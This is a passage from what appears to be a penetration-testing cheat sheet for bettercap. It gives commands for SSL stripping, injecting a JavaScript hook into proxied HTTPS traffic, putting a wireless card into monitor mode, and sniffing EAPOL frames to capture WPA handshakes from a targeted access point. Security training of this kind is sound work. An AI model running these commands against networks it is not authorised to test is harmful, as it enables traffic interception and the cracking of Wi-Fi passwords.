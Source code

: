 ```
set https.proxy.sslstrip true/false
```

#### inject js code

```
https.proxy.injectjs
set https.proxy.script /root/Desktop/Hook.js
```

## <mark style="color:red;">Wifi Network Monitoring</mark>

wifi.recon covers both 2.4 Ghz and 5Ghz frequencies. It’s doing everything you need. Deauth, Sniff, Handshake captures. To start, add -iface option:

```
 bettercap -iface wlan0
```

{% hint style="info" %}
In case of an error: Can’t restore interface wlan0 wireless mode (SIOCSIWMODE failed: Bad file descriptor). Please adjust manually. Quit bettercap and manually set the wireless interface to monitor mode. For example, as follows:

```
$ sudo ip link set wlan0 down
$ sudo iw wlan0 set monitor control
$ sudo ip link set wlan0 up
```
{% endhint %}

Turn on recon:

```
wifi.recon on
```

You can manage channels with:

```
wifi.recon.channel 10,11
```

To clear them:

```
wifi.recon.channel clear
```

Results can be seen with:

```
wifi.show
```

To capture handshakes, we should define a sniffer, filter specific frames (0x888e), set the output file for processing later on, maybe select the channel and or target:

```
» set net.sniff.verbose true
» set net.sniff.filter ether proto 0x888e
» set net.sniff.output /root/wpa.pcap
» net.sniff on

» wifi.recon.channel 1
» wifi.recon on
» wifi.recon 94:33:30:a6:2b:63
```
